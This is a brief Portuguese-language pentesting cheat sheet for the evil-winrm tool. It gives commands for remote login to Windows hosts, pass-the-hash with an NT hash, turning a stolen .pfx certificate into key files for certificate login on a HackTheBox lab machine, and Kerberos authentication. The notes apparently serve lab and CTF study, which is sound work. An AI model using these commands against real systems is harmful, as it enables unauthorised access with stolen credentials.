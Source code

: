 Winrm
========================


## Basico

Comandos mais básicos da ferramenta:

```
evil-winrm -i 10.10.10.10 -u username -p password
```


## Pass the hash

```
evil-winrm -i 10.10.10.10 -u username -H :<nt_hash>
```
## Certificate authentication

 Uma vez obtido um certificado (.pfx), é necessário gerar duas informações, uma chave privada e uma pública com os comandos abaixo:

```
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out cert.pem
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out key.pem -nodes
```

Dessa forma a gente conseguia acesso na máquina via evil-winrm

```
evil-winrm -i 10.10.11.152 -c cert.pem -k key.pem -S -r timelapse.htb
```

ref: <https://wadcoms.github.io/wadcoms/Evil-Winrm-PKINIT/>


## Kerberos authentication

```
evil-winrm -i dc01.home.lab -r home.lab
```